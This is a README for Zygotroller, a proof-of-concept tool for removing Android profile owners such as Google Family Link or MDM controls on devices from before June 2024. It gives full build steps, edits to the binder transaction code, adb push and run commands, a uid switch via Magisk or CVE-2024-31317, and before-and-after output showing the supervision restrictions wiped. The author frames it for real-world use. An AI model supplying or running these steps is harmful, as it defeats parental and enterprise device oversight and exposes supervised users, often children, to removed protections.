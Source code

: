# Zygotroller
## Remove profile owners/Family Link on any pre June 2024 device, with Developer Mode
Zygotroller is a proof-of-concept that shows how to remove an Android profile owner (used for parental controls or MDM) if you can become the user of the profile owner, for example, with CVE-2024-31317's Zygote injection bug, or Magisk.

Google's parental control system, Family Link, is shown as an example in this repo.

I won't be including how to use this with CVE-2024-31317 here because it doesn't fall under the scope of this guide. If you are interested in using this in a real world scenario, I recommend you take a look at [this repo](https://github.com/agg23/cve-2024-31317) for some blogs and details regarding how to use that CVE. At a high level, you need to rename the Zygotroll binary to `libSOMETHING.so` (replacing 'SOMETHING' with whatever you want), and include it in an APK so that SELinux allows the file to be executed. You will need developer mode+app installs enabled if planning on using this in a real world scenario.

The rest of the guide will assume you are using a rooted, supervised device with magisk. If you are not rooted, look into CVE-2024-31317.

# Using
You will need a modern-ish device running a Debian based distro to compile Zygotroller. Prebuilts may or may not be available depending on the time of reading this.

Unfortunately this relies on internal parts of Android, so you need to clone the entirety of the Android source code in order to build Zygotroller. Make sure you have at least 400gb of free space, although you will likely use less.

IMPORTANT IF USING WSL: Make sure you have a LOT of swap, or WSL will crash. I personally used 32G:
```
sudo fallocate -l 32G /swapfile
sudo chmod 600 /swapfile
sudo mkswap /swapfile
sudo swapon /swapfile
```

Now for cloning AOSP source:
```
mkdir ~/aosp
cd ~/aosp
```
`repo init --partial-clone --no-use-superproject -b android-latest-release -u https://android.googlesource.com/platform/manifest`

`repo sync -c -j8` (might take multiple tries due to ratelimits)

`source build/envsetup.sh`

`aosp_cf_x86_64_only_phone-aosp_current-eng` (if not compiling for emulator, change to use the arm version)

`cd ~/aosp/external`

`git clone https://github.com/rifting/Zygotroller`

`cd Zygotroller`

Now we need to change the values in the script to our actual profile owner and opcode for clearProfileOwner.
The profile owner can either be in the Google play services "supervision" package or in Google play services itself. Run `dpm list-owners`, my result was like so:
```
$ dpm list-owners
1 owner:
User  0: admin=com.google.android.gms.supervision/com.google.android.gms.kids.account.receiver.ProfileOwnerReceiver,ProfileOwner
```
This gives us two pieces of information we need for Zygotroller, the package name (com.google.android.gms.supervision) and the class name (com.google.android.gms.kids.account.receiver.ProfileOwnerReceiver).

Edit zygotroll.cpp with your preferred text editor and update these lines to your profile owner component:
```
    // Family Link profile owner
    std::string pkg = "com.google.android.gms.supervision";
    std::string cls = "com.google.android.gms.kids.account.receiver.ProfileOwnerReceiver";
```
Now you need to find the opcode for the clearProfileOwner function of DPM. This was "91" for me, but it varies depending on the version/type of Android you're running. To get the opcode for clearProfileOwner, I used [android-svc](https://github.com/T-vK/android-svc) with the command 

`android-svc convert 'android.app.admin.IDevicePolicyManager.clearProfileOwner("dummy")'`

The number you see in the output will be the opcode for clearprofile owner, open up zygotroll.cpp again with your preferred text editor and edit the number here, to your actual opcode:
```
    // Transaction code 91 was ClearProfileOwner for my device
    dpm->transact(91, data, &reply);
```

Now we need to compile zygotroller:

`mm`

This can take a LONG time on initial build, subsequent builds will take <1m on most modern machines.

Find your binary in `~/aosp/out/target/product/vsoc_x86_64_only/system/bin/zygotroller`

Push this to your device: `adb push ~/aosp/out/target/product/vsoc_x86_64_only/system/bin/zygotroller /data/local/tmp`

Set correct permissions `adb shell chmod +x /data/local/tmp/zygotroller`.

The family link profile owner was userid 10090 for me, AKA u0_a90
Do `dumpsys package com.google.android.gms.supervision | grep userId=`

Now switch to that user with something like Magisk or CVE-2024-31317. The username will be "u0_" + the last 2 numbers you got from the user id.

Example for magisk: `su u0_a90` (your username may or may not be different, make sure to replace mine with the correct one!)

Now run Zygotroller!
`/data/local/tmp/zygotroller`

You should see that the Family Link profile owner has been removed.

Before:
```
$ dpm list-owners
1 owner:
User  0: admin=com.google.android.gms.supervision/com.google.android.gms.kids.account.receiver.ProfileOwnerReceiver,ProfileOwner
```
```
$ abx2xml /data/system/users/0.xml -
...
<device_policy_local_restrictions>
    <restrictions_user user_id="0">
      <restrictions no_factory_reset="true" no_config_location="true" no_add_clone_profile="true" no_safe_boot="true" no_config_credentials="true" no_config_date_time="true" />
    </restrictions_user>
  </device_policy_local_restrictions>
...
```

After:
```
$ dpm list-owners
no owners
emu64xa:/ $
```
```
$ abx2xml /data/system/users/0.xml -
...
<device_policy_local_restrictions />
...
```


## Special Thanks
[gburca for BinderDemo](https://github.com/gburca/BinderDemo)
